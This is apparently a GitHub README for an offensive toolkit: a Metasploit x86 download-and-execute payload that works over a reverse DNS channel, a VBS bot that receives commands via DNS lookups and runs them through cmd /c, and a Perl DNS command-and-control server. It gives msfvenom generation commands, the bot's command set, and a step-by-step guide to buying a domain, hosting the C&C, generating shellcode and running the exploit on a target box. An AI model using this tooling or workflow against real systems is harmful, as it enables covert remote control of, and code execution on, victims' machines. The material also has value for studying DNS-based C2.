 # Reverse DNS payloads for Remote control
Reverse DNS payload for Metasploit: Download  Exec x86 shellcode. Also DNS Handler and VBS bot (working over DNS) as PoC included.

## Components

### dns_download_exec_svchost.rb

Metasploit payload: X86 download and exec via reverse DNS channel. Jut put this file into msf3 payload folder and then you could use it like that:

     mssfvenom -p windows/dns_download_exec_svchost DOMAIN=a.0x41.ws EXT=vbs -f js_le | sed -s 's/\%/\\/g'

DOMAIN - domain you should control (NS).

EXT - file extension

This payload are using getaddrinfo API function for getting data over DNS (to %temp% dir). This shellcode will work even on boxes without IPv6 assigned (my previos one - https://www.exploit-db.com/exploits/17326/ did not!). 
In this new version resolved IPv6 addresses will be from reserved block. This shellcode uses IPv6 in ranges from ff00:: to ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

those IPv6 will be resolve even if no IPv6 address assigned to the interface (only linked). First byte should be ff, than second is control byte that tell us what block of data we have and flag "last block". All last 14 bytes of IPv6 - data as is (no encoding needed, like in TXT section). For one DNS response we could receive up to 17 IP addresses, so for one DNS request we could get 238 bytes of raw data.
 
 aaaa.a.dom.ws - first 238 bytes
 baaa.a.dom.ws - second 238 bytes
 caaa.a.dom.ws - ....
 ....
 abaa.a.dom.ws - ...
 cbaa.a.dom.ws - for example last peace of data (in this case we have flag of last pice in first 4 bits of second byte)
 
 Maximum size: up to 88 Mb (zzzz.dom.ws)
 Download Speed: ~ 4 Kb/sec
 Shellcode size: 833 bytes (no null bytes by default)
 
### bot.vbs
 
 PoC of agent on VBS that could use reverse DNS channel for recieveing commands. This prototype uses nslookup for resolving ipv4 addresses.
 As first action this agent will  try to register on C&C by using AD domain/workgroup name and current login, after that it will frequently requesting DNS  for getting commands to execute. If command will be received then result of execution will be sent back in base64 format. 
 
#### Commands
    exit                   - kill process with agent (wscript)
    sleep                  - sleep 30 seconds until next request
    download [part] [file] - download another file [part] - subdomain with file
                                                   [file] - local file name (to create)
                             Download speed here ~ 1 Kb/Sec
                             example: download b drop.exe
                             (will be converted into aaaa.b.dom.ws, baaa.b.dom.ws)
    [any other command]    - will run cmd /c [any other command]

    
This is juts PoC and prototype so we do not have here autorun and hiding features!

### revdns.pl

DNS handler that should be used as dom.ws name server. Works as agent C&C server and could support sessions (if we have more than one agent)
 and also contains egg-drop for shellode/or bot.vbs (up to 88Mb). Support both: bot.vbs and DNS shellcode. And it is designed to work as combo:
  
 1. Shellcode using this DNS downloading bot.vs and run it
 2. bot.vs using same DNS as C&C and could download next file (see revdns.pl)

P.S. This perl code based on my old ugly-coded-perl DNS server, so sorry for that 8)

Original(and old) preso about this project is here: [https://erpscan.com/wp-content/uploads/2012/06/dns-for-evil.pdf](CONFidence 2011 slides: DNS for EVIL)

## Example usage

1) Buy a domain name and host a revdns.pl. Let's say we have zlo.ws and host 11.11.11.11 (as our C&C server)

2) Configure revdns.pl (on 11.11.11.11) 

    @EGGs = ("bot.vbs","drop.exe")
    
So now it "stores" two drop files in a.zlo.ws and in b.zlo.ws

3) Configure revdns.pl 
  
        $DOMAIN = "zlo.ws";               
        $IPA = "11.11.11.11"; 

4) Configure bot.vbs (on 11.11.11.11)

        DOMAIN="zlo.ws" 
        
5) Put drop.exe (on 11.11.11.11) as any binary (better small 8))              
              
6) Run revdns.pl

7) Setup NS for zlo.ws to 11.11.11.11

8) Now we a read, let's generate shellocode

If you want shellcode download and exec bot.vbs
 
        mssfvenom -p windows/dns_download_exec_svchost DOMAIN=a.0x41.ws EXT=vbs -f js_le
        
If you want shellcode download and exec drop.exe
 
        mssfvenom -p windows/dns_download_exec_svchost DOMAIN=b.0x41.ws EXT=exe -f js_le
        
9) Run exploit with shellocde on target box, and then (if bot.vbs used) wait when BOT from the box will be connected to revdns.pl

10) Use interactive or auto mode of revdns.pl
